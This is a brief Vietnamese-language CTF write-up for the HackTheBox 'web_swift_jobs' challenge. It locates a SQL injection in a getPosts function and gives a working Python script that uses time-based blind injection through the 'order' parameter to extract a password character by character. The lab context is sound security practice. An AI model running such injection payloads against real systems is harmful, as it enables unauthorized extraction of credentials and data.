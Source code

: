 ![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled4.png)

mã nguồn được cho sẵn, ở hàm __getPosts__ trong tệp __database.js__ bị lỗi __sqli__
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled.png)

trong đường dẫn __/api/list có dùng hàm getPosts__ này
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled1.png)

flag được để trong __tables users__ ở dòng mà username là __flagholder__
![alt text](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_swift_jobs/Untitled3.png)

ta viết code để khai khác lấy flag

___url = 'http://188.166.173.208:30042/api/list'

import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())__
